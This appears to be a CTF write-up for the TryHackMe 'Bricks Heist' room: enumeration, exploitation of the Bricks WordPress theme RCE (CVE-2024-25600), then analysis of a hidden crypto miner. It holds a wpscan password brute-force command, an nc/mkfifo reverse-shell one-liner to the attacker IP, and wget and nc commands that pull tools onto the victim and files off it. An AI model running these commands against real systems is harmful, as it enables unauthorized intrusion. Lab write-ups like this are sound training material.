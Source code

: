 # TryHack3M: Bricks Heist - Easy

* nmap scan - ```nmap -T4 -p- -A -Pn -v 10.10.10.139``` -

  * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - WebSockify Python/3.8.10
  * 443/tcp - ssl/http - Apache httpd
  * 3306/tcp - mysql - MySQL (unauthorized)

* Mapped ```bricks.thm``` to target IP in ```/etc/hosts``` as given, maybe indicates something to do with vhosts/domains

* On port 80, we get 'Error response' with error code 405 for 'Method Not Allowed'; same goes for 'bricks.thm'

* However, the HTTPS page includes the page for 'Brick by Brick'; from <https://bricks.thm>, from the favicon we can confirm it's running on WordPress. We can check the page source and get some more context.

* From the ```nmap``` scan, we also find out that on port 443, there's a ```robots.txt``` file which includes an entry for '/wp-admin/', and leads us to WordPress login page

* We can simultaneously do a directory scanning for both HTTP and HTTPS pages:

  ```sh
  gobuster dir -u http://bricks.thm -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16

  gobuster dir -u https://bricks.thm -k -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16
  # -k is added to ignore x509 invalid cert issues
  ```

* From directory scanning, we get a few hits - interesting folders include '/0', '/0000', 'B', '/admin' (redirect to '/wp-admin'), '/phpmyadmin'

* For these directories, we can check for any subdirectories or files:

  ```sh
  gobuster dir -u https://bricks.thm/0 -k -w /usr/share/dirb/wordlists/small.txtl -x txt,php,html,bak -t 16

  gobuster dir -u https://bricks.thm/0000 -k -w /usr/share/dirb/wordlists/small.txtl -x txt,php,html,bak -t 16
  # we get some 
  ```

* We can also try using ```wpscan``` for Wordpress enumeration:

  ```sh
  wpscan --url https://bricks.thm --enumerate --disable-tls-checks
  # xmlrpc is enabled
  # WP version 5.7
  # administrator user found
  # bricks theme being used

  wpscan --url https://bricks.thm --enumerate t --disable-tls-checks
  # to enumerate theme only

  # bruteforce for 'administrator'
  wpscan --url https://bricks.thm --disable-tls-checks --password-attack xmlrpc -t 20 -U administrator -P /usr/share/wordlists/rockyou.txt
  # no luck
  ```

* We can also check if there are other vhosts/domains:

  ```sh
  dig bricks.thm 10.10.10.139

  dig axfr @10.10.10.139 bricks.thm

  gobuster vhost -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

  gobuster vhost -u https://bricks.thm -k -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
  ```

* Now, for the Bricks theme version 1.9.5 found from ```wpscan```, we get an [unauthenticated RCE exploit](https://github.com/Chocapikk/CVE-2024-25600) for versions lower than 1.9.6 - the CVE-ID associated is CVE-2024-25600:

  ```sh
  git clone https://github.com/Chocapikk/CVE-2024-25600.git

  cd CVE-2024-25600/

  pip install -r requirements.txt

  python exploit.py -u https://bricks.thm
  # we get RCE
  ```

* To move to a stable shell, we can setup a listener using ```nc -nvlp 1234``` and execute the following payload in victim machine - ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.243.37 1234 >/tmp/f``` - this gives us a reverse shell:

  ```sh
  id
  # apache

  # get a stable shell
  python -c 'import pty;pty.spawn("/bin/bash")' #to spawn a bash shell
  export TERM=xterm
  #background shell using Ctrl+Z, and in our terminal
  stty raw -echo; fg #turns echo off and foregrounds shell

  pwd

  ls
  # we have a flag here

  # we can use linpeas.sh for basic enumeration
  cd /tmp

  which wget

  wget http://10.10.243.37:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  # I had to set unlimited scrolling in my terminal to view entire output
  ```

* From the given question, we need to find suspicious processes - using ```ps aux``` or ```ps -ef``` does not give anything, so we need to check using ```pspy``` as well:

  ```sh
  # on attacker machine, start server again
  # in reverse shell, fetch pspy binary

  wget http://10.10.243.37:8000/pspy64

  chmod +x pspy64

  ./pspy64
  # monitor the processes
  ```

* Using ```pspy64```, we can see that roughly every 4 minutes, a process ```/lib/NetworkManager/nm-inet-dialog``` is seen, and it is run with UID=0 (root). This is followed by it running ```uname -p``` and ```sh -c clear``` commands

* Now, to find the service associated with this process:

  ```sh
  systemctl list-units --type=service
  # this shows a service running with an interesting description

  systemctl status ubuntu.service
  # this confirms the above
  ```

* Now, to inspect this ```nm-inet-dialog``` binary further, we can transfer this file from victim to our machine:

  ```sh
  # in attacker machine
  nc -lvp 8888 > nm-inet-dialog

  # in victim machine
  cd /lib/NetworkManager

  nc 10.10.243.37 8888 -w 3 < nm-inet-dialog
  ```

* To analyze the binary in our machine, we can use ```strings nm-inet-dialog -n 8```, but this does not give much context

* As the question mentions a miner instance, we can check this file in VirusTotal for any hits

* From VirusTotal, the binary is flagged as malicious, and we can see that under 'Relations', one of the contacted domains includes <blockchain.info>; we can also confirm from 'Behavior', where highlighted text includes 'Mining'

* From the same tab, if we inspect 'Files Written', one of the files stand out - when we check this file, we can see that this is where the miner instance logged everything

* We have an ID given in this file - it seems encoded, so we can use CyberChef. It automatically decodes it From Hex, then twice from Base64

* This gives us a string - it is too lengthy to be a blockchain address. Checking further, it starts from 'bc1', which indicates 'bech32' (or Native Segwit) addresses

* In our string, we have two 'bc1' sub-strings - only one of them seems to be a valid addresses, after checking from <www.blockchain.com>

* For the valid address, we can view the addresses associated with higher BTCs transferred, and follow the paper trail; we can lookup the suspect IDs, which will show us the threat actor.
